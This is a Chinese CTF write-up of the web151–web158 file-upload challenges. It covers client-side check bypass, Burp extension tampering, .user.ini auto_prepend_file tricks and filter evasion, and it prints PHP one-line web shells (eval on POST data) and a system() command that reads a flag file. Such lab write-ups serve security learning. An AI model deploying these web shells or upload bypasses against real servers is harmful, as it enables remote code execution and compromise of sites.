### web151

开启容器



前台校验
直接上传包含一句话木马的 shell.php
发现有后缀限制



提示前台校验
`F12`修改源代码 `exts`后面`png`改为`php` 这样就可以上传`php`的文件了，然后蚁剑直接连接





用蚁剑链接








### web152

开启容器



提示后端校验要严密

直接上传 php 无法成功

尝试可以上传成功 png



进行抓包

就是要传图片格式，抓个包传个`png`的图片 然后`bp`抓包修改`php`后缀解析 然后放包 显示上传成功 蚁剑连即可。







### web153

开启容器



`.htaccess`在绕过文件上传的限制中，通常在 Apache 全局配置文件 httpd.conf 中有这样一条配置：`AddType application/x-httpd-php .php .phtml`或者

`SetHandler application/x-httpd-php` 将所有文件都解析为 php 文件

这里我们尝试.htaccess（因为它只适用于 Apache）所以不行，这里要使用.user.ini

`php.ini` 是 php 的一个全局配置文件，对整个 web 服务起作用；而`.user.ini `和`.htaccess` 一样是目录的配置文件，`.user.ini `就是用户自定义的一个 `php.ini`，通常用这个文件来构造后门和隐藏后门。

这里先上传一个内容为：auto_prepend_file=1.png 得 png，然后在正常传一个带图片得一句话木马即可。接下来就会将 1.png 转化为 php

先创建一个配置文件

```
auto_prepend_file = 1.png
```



后创建一个 1.png 文件

```php
<?php
@eval($_POST['cmd']);
phpinfo();
?>
```



第一个需要抓包上传,将.png 删除








蚁剑链接



### web154

开启容器


这里其他与上题一样，多了个 php 黑名单过滤

```php
<script languoge="PHP">
@eval($_POST['cmd']);
PHPinfo();
</script>
```

```php
<?=eval($_POST[a]);?>
```






### web155

开启容器



方法和上一题一样，`ok`在做一遍 老样子先上传`.user.ini.png` 和`1.png`然后直接访问`/upload/index.php/`即可。





### web156

开启容器

考点：过滤字符`[]`，`[]`可以可以使用`{}`代替。

这里也很简单 段标签的基础上改成`{}`即可 `<?=eval($_POST{a});?`



### web157

开启容器

考点：过滤字符串 过滤了`{}`和 `;`

可以把语句用括号`()`包含
这里可以使用命令执行：`<?=(system("tac ../fl*"))?>` 直接访问`/upload/`



### web158

开启容器

与上题一样


